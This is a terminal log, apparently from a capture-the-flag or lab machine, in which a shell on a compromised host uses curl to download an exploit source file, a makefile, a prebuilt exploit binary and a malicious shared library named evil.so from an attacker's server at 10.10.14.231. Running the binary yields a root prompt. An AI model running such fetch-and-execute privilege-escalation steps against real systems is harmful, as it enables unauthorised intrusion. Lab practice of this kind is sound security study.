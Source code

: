 ```
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   873                                                                                                                                                              
$ curl http://10.10.14.231:8000/exploit.c -o exploit.c                                                                                                                                                                                      
curl http://10.10.14.231:8000/exploit.c -o exploit.c                                                                                                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   555  100   555    0     0   2747      0 --:--:-- --:--:-- --:--:--  2747                                                                                                                                                              
$ curl http://10.10.14.231:8000/makefile -o makefile                                                                                                                                                                                        
curl http://10.10.14.231:8000/makefile -o makefile                                                                                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   148  100   148    0     0    740      0 --:--:-- --:--:-- --:--:--   740                                                                                                                                                              
$ make                                                                                                                                                                                                                                      
make                                                                                                                                                                                                                                        
/bin/sh: 15: make: not found
$ curl http://10.10.14.231:8000/exploit -o exploit                                                                                                                                                                                          
curl http://10.10.14.231:8000/exploit -o exploit                                                                                                                                                                                            
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed
100 16176  100 16176    0     0  53562      0 --:--:-- --:--:-- --:--:-- 53562
$ curl http://10.10.14.231:8000/evil.so -o evil.so
curl http://10.10.14.231:8000/evil.so -o evil.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15584  100 15584    0     0  51432      0 --:--:-- --:--:-- --:--:-- 51263
$ ./exploit
./exploit
# whoami
whoami
```